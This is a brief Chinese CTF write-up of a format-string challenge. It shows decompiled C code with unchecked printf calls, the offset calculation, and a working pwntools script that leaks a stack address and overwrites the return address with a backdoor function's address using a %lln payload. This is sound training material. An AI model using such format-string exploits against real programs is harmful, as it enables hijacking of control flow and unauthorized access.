 本题核心点在于格式化字符串的利用.

main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[48]; // [rsp+0h] [rbp-70h] BYREF
  char format[56]; // [rsp+30h] [rbp-40h] BYREF
  unsigned __int64 v6; // [rsp+68h] [rbp-8h]
 
  v6 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts("\n\x1B[33m---------------------------------------------");
  puts("----------\x1B[0m\x1B[34mWelcome_to_address_SYSTEM\x1B[0m\x1B[33m----------");
  puts("---------------------------------------------\x1B[0m\n");
  puts("\x1B[32;5mWhere is XiaoMing's Home?\x1B[0m");
  read(0, buf, 0x30uLL);
  printf(buf);
  puts("\x1B[32;5mAnd where is XiaoHong's?\x1B[0m");
  read(0, format, 0x30uLL);
  printf(format);
  return 0;
}
```

对于这种 `printf` 没有任何限制条件的情况，我们可以利用格式化字符串漏洞
首先我们利用 `%p` 得到 `ret` 寄存器的地址
然后计算偏移

![](./小明1.png)

偏移为13
然后我们找到后门函数的地址`0x40159C=4199836(十进制)`
可以构造`%4199836c%14$lln`

```python
from pwn import*
p = remote("10.102.32.142", 40682)
p.recv()
p.send(b'aaaa-%p')
p.recvuntil(b'Home?\x1b[0m\n')
addr = p.recv()[5:19]
Addr = int(addr ,16)
offset = 0x70+8
ret_addr = Addr+offset
payload = b'%4199836c%14$lln'+p64(ret_addr)
p.sendline(payload)
p.interactive()
```
